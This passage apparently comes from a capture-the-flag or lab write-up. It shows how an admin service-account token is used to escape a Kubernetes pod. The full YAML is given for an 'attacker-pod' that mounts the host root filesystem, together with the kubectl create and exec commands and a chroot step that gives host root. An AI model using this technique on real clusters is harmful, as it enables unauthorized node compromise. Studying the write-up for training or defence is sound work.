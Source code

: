 Nice, we can do everything, which means we can create pods aswell. We can abuse it like [this](https://book.hacktricks.xyz/pentesting/pentesting-kubernetes/enumeration-from-a-pod#escaping-from-the-pod).

First we create an `attacker.yaml` using an already known image name and a policy of `IfNotPresent`. We saw that by looking at other pods in default with: `./kube --token=$admin_token get pod webapp-deployment-5d764566f4-h5zhw -n default -o yaml`.


attacker.yaml
```yaml
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: attacker-pod
  name: attacker-pod
  namespace: default
spec:
  volumes:
  - name: host-fs
    hostPath:
      path: /
  containers:
  - image: node_server:latest
    imagePullPolicy: IfNotPresent
    name: attacker-pod
    volumeMounts:
      - name: host-fs
        mountPath: /root
  restartPolicy: Never
```

Let's create the new attacker-pod:
```
./kube --token=$admin_token create -f attacker.yaml -n default
```

And interact with it like this:

```
./kube --token=$admin_token exec -it attacker-pod -n default -- bash
```
Now just run `chroot /root /bin/bash` to become root.

